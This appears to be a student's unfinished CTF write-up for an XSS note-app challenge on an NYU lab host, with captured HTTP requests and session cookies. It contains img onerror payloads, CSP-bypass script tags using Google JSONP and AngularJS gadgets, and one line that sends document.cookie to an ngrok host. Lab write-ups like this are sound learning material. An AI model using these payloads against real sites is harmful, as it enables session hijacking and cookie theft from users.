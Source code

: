 100 points at `http://offsec-chalbroker.osiris.cyber.nyu.edu:12345/`

Ah hah, this is gonna be one of those "steal admin cookies" ones
![[Pasted image 20240409132423.png]]

Here's what I think development will look like:
1) Build payload that will send cookie to Collaborator (or something)
2) Test payload against other account
3) Reporting will send payload to admin so that it is viewed by the other one

# 1) Building Payload Against User
## Note View Functionality
It returns the note title and contents in plaintext
###### Request:
```http
GET /note/view/2 HTTP/1.1
Host: offsec-chalbroker.osiris.cyber.nyu.edu:12345
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://offsec-chalbroker.osiris.cyber.nyu.edu:12345/note/
Cookie: CHALBROKER_USER_ID=lmv9443; session=.eJwlzjEOwjAMRuG7ZGZw4jqJe5kqsf8IJKa0ZUHcnSK2N7zhe4dtTOz3sB7zxC1sDw9riCTaLWfrzuaUBzVtTENgA7HUVAec4L0snHIzUk8cJSv1X7gN9VbBXSEtgrh1uCCBuVy7tBp7gS0lCY9ixDWLMmtaiD2KhQty7ph_zfN1YD_C5wsmrTJV.ZhWKTA.gNykmC9pUxydFz5BGWzAwwMmNDM
Upgrade-Insecure-Requests: 1
X-PwnFox-Color: green
```
###### Response:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2483
Content-Security-Policy: script-src 'self' cdn.jsdelivr.net *.google.com; img-src *; default-src 'self'; style-src 'self' cdn.jsdelivr.net; report-uri /csp_report
Vary: Cookie
Server: Werkzeug/2.0.3 Python/3.6.9
Date: Tue, 09 Apr 2024 18:41:11 GMT
...omitted for brevity
<!DOCTYPE html>
<html lang="en">
    <head>       
        <title>Nevernote</title>
    ...omitted for brevity...
    <div class="container-fluid">
        <div class="content">
			<h3>This is a test by lvtest</h3>
			<p>This is a test</p>
```

So we can see that the csp is shown in the response, which only allows scripts from itself (luckily I can upload probably all content)
* It does allow images from all sources

## Simple Image Payload

Just getting syntax
Image URL: `https://i.ebayimg.com/images/g/e8EAAOSwuZxhzIsD/s-l1600.jpg`
```
<img src = "https://i.ebayimg.com/images/g/e8EAAOSwuZxhzIsD/s-l1600.jpg"/>
```



```
test</p><img src = "https://i.ebayimg.com/images/g/e8EAAOSwuZxhzIsD/s-l1600.jpg"/><p>test
```


It looks like none of my images are showing up for some reason, I think the csp
##### So here's a simple img on error payload just to see
###### Payload:
```js
<img src="doesnotexist.jpg" onerror="javascript:alert("Hello")" />
```
Encoded: 
```
%3c%69%6d%67%20%73%72%63%3d%22%64%6f%65%73%6e%6f%74%65%78%69%73%74%2e%6a%70%67%22%20%6f%6e%65%72%72%6f%72%3d%22%6a%61%76%61%73%63%72%69%70%74%3a%61%6c%65%72%74%28%22%48%65%6c%6c%6f%22%29%22%20%2f%3e
```
###### Request to Set Payload:
```http
POST /note/new HTTP/1.1
Host: offsec-chalbroker.osiris.cyber.nyu.edu:12345
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Origin: http://offsec-chalbroker.osiris.cyber.nyu.edu:12345
Connection: close
Referer: http://offsec-chalbroker.osiris.cyber.nyu.edu:12345/note/new
Cookie: CHALBROKER_USER_ID=lmv9443; session=.eJwlzjEOwjAMRuG7ZGZw4jqJe5kqsf8IJKa0ZUHcnSK2N7zhe4dtTOz3sB7zxC1sDw9riCTaLWfrzuaUBzVtTENgA7HUVAec4L0snHIzUk8cJSv1X7gN9VbBXSEtgrh1uCCBuVy7tBp7gS0lCY9ixDWLMmtaiD2KhQty7ph_zfN1YD_C5wsmrTJV.ZhWRMg.v2BkA2UEQwahAYzizyv8G_0WGdY
Upgrade-Insecure-Requests: 1
X-PwnFox-Color: green

title=ImgAlert&content=%3c%69%6d%67%20%73%72%63%3d%22%64%6f%65%73%6e%6f%74%65%78%69%73%74%2e%6a%70%67%22%20%6f%6e%65%72%72%6f%72%3d%22%6a%61%76%61%73%63%72%69%70%74%3a%61%6c%65%72%74%28%22%48%65%6c%6c%6f%22%29%22%20%2f%3e&submit=save
```

###### Request to view payload:
```http
GET /note/view/4 HTTP/1.1
Host: offsec-chalbroker.osiris.cyber.nyu.edu:12345
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://offsec-chalbroker.osiris.cyber.nyu.edu:12345/note/
Cookie: CHALBROKER_USER_ID=lmv9443; session=.eJwlzjEOwjAMRuG7ZGZw4jqJe5kqsf8IJKa0ZUHcnSK2N7zhe4dtTOz3sB7zxC1sDw9riCTaLWfrzuaUBzVtTENgA7HUVAec4L0snHIzUk8cJSv1X7gN9VbBXSEtgrh1uCCBuVy7tBp7gS0lCY9ixDWLMmtaiD2KhQty7ph_zfN1YD84fL5Y_DKI.ZhWQ7A.pgUEreeSN73YDm0pAKwBi9AxmW4
Upgrade-Insecure-Requests: 1
X-PwnFox-Color: red
```
###### Response:
```html
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2530
Content-Security-Policy: script-src 'self' cdn.jsdelivr.net *.google.com; img-src *; default-src 'self'; style-src 'self' cdn.jsdelivr.net; report-uri /csp_report
Vary: Cookie
Server: Werkzeug/2.0.3 Python/3.6.9
Date: Tue, 09 Apr 2024 19:21:34 GMT

...omitted for brevity...

<main role="main">
    <div class="container-fluid">
        <div class="content">
            
    <h3>ImgAlert by lvtest</h3>
    <p><img src="doesnotexist.jpg" onerror="javascript:alert("Hello")" /></p>

        </div>
    </div>
</main>
```

This also got me a csp warning when I clicked on it...I guess because of the script, but I realize now that my quotes are weird

Same thing happened with better quotes too ...weird


Anyways, this is because of the CSP
CSP:
```
Content-Security-Policy: script-src 'self' cdn.jsdelivr.net *.google.com; img-src *; default-src 'self'; style-src 'self' cdn.jsdelivr.net; report-uri /csp_report
```

Most importantly, how it's getting scripts:
```
script-src 'self' cdn.jsdelivr.net *.google.com;
```
So scripts can come from:
* self
* cdn.jsdelivr.net
* google.com

Here's what a CSP evaluator says
![[Pasted image 20240409145523.png]]
Self
* would probably need to upload a js file itself


```
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```


```
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>
<img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>
```


